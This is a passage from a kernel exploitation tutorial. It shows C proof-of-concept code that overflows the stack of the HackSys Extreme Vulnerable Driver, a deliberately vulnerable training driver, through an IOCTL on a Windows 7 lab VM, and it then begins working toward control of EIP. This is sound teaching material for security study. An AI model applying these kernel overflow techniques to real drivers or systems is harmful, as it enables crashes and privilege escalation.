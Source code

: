 	lpInBuffer = (PULONG)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, nInBufferSize);

	if (!lpInBuffer) {
		printf("HeapAlloc failed :( 0x%X\r\n", GetLastError());
		return 1;
	}

	printf("Input buffer allocated as 0x%X bytes.\r\n", nInBufferSize);
	printf("Input buffer address: 0x%p\r\n", lpInBuffer);
	printf("Filling buffer with A's\r\n");

	//RtlFillMemory is like memset but the Length and Fill arguments are switched because Microsoft thought there weren't enough memset bugs in the world
	//see: The most dangerous function in the C/C++ world (http://www.viva64.com/en/b/0360/)
	RtlFillMemory((PVOID)lpInBuffer, nInBufferSize, 0x41);

	printf("Sending IOCTL request\r\n");

	DeviceIoControl(hDriver,
		HACKSYS_EVD_IOCTL_STACK_OVERFLOW,
		(LPVOID)lpInBuffer,
		(DWORD)nInBufferSize,
		NULL, //No output buffer - we don't even know if the driver gives output #yolo.
		0,
		&lpBytesReturned,
		NULL); //No overlap

	printf("IOCTL request completed, cleaning up da heap.\r\n");
	HeapFree(GetProcessHeap(), 0, (LPVOID)lpInBuffer);
	return 0;
}
</pre>
Effectively all this code does is get a handle to the driver and then send the ‘HACKSYS\_EVD\_IOCTL\_STACK\_OVERFLOW’ handling function a 4096 byte long buffer entirely filled with 0x41 or the ASCII code for ‘A’. Once built and ran from the command line (provided the target win7 VM is still being kernel debugged) the system should freeze as shown below:
![Driver crash](https://raw.githubusercontent.com/sam-b/intro-to-kernel-exploitation/master/screenshots/part_2/driver_crash_poc.PNG)
 
When we look in the debugger on the debugging machine we can see that we have caused a fatal exception, triggering a Bugcheck (also known as the infamous Blue Screen of Death) 
![bug check](https://raw.githubusercontent.com/sam-b/intro-to-kernel-exploitation/master/screenshots/part_2/hacksys_poc_crash_windbg.png)
Now that we understand what the driver does, how to communicate with it and how to crash it, we can start to put an exploit together.
## EIP 0x41414141
First we need to modify our program to get control of EIP, this process is identical to exploiting a buffer overflow in user mode but once we have control of EIP things start to be different again. Let’s continue doing this blind since looking at the code would make it even easier and give us less pretty blue screens. Our previous test programme clearly sent far too much data and completely trashed the stack, losing us the chance to get EIP control due to something bad happening before the IRP handler function ever returned. To work out how to layout our buffer to get control we can start by just using a binary search to find a length which gets us EIP == 0x41414141, by modifying the nInBufferSize variable to be `512 * sizeof(ULONG)` down from 1024 we run our test case again and nothing crashes. Increasing the value to 768 gives us what we want – a crash with both EIP and EBP equal to 0x41414141:

